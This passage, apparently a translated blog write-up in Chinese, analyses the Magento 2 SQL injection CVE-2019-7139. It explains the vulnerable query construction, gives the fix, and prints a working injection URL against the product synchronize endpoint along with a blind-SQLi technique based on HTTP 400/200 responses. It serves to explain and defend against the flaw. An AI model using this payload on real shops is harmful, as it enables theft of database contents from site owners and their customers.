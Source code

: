 通过将`$condition ['to']`设置为适当的 SQL 代码，我们将成功地修改预期的查询。例如，如果是`$condition[‘to’] = "1 OR 1=1 -- "`，那么 SQL 查询就变成`$query = "$fieldName >= 1 OR 1=1 -- AND $fieldName <= ?"`。

## 3.减轻

要解决这个问题，行

```
$query = $this->_prepareQuotedSqlCondition($query . $conditionKeyMap['to'], $to, $fieldName);
```

应该是:

```
$query = $query . $this->_prepareQuotedSqlCondition($conditionKeyMap['to'], $to, $fieldName);
```

Magento 的最新版本已经修复了 CVE-2019-7139 漏洞。

## 4.触发漏洞

为了在测试环境中重现漏洞，我们在 Docker 中运行了 Magento 2 . 2 . 6；图片可从[这里](https://hub.docker.com/r/alexcheng/magento2/)免费获取。

在最初的文章中，通过使用控制器`lib\Magento\Catalog\Controller\Product\Frontend\Action\Synchronize.php`来利用该漏洞。然而，**这种剥削方式只在 Magento > = 2.2.0** 中有效。

SQL 注入的有效 URL 是:

```
https://local.magento/catalog/product_frontend_action/synchronize?

type_id=recently_products&

ids[0][added_at]=&

ids[0][product_id][from]=?&

ids[0][product_id][to]=))) OR (SELECT 1 UNION SELECT 2 FROM DUAL WHERE 1=1) -- -
```

由此开始，我们可以触发基于内容的[盲 SQLi](https://pentest-tools.com/blog/sql-injection-attacks/#blind-sqli) 或基于时间的盲 SQLi。下面是对数据库进行 GET 请求的两个示例:

### –盲 SQL 注入–基于内容

对于基于内容的盲 SQL 注入，下面的两个查询将当前用户的第一个字符与字符“A”进行比较。如果条件为真，服务器返回 **HTTP 400 错误请求**，因为我们试图将一个 1 列结果与一个 2 列结果连接起来。如果为假，我们得到 **HTTP 200 OK** ，因为联合后的选择被忽略。

![content-based blind SQL Injection query one](img/dbc41dd6ceb0c96251fc0950c8208085.png) ![content-based blind SQL Injection query two](img/87433be2285b227631afafad58931d6e.png)
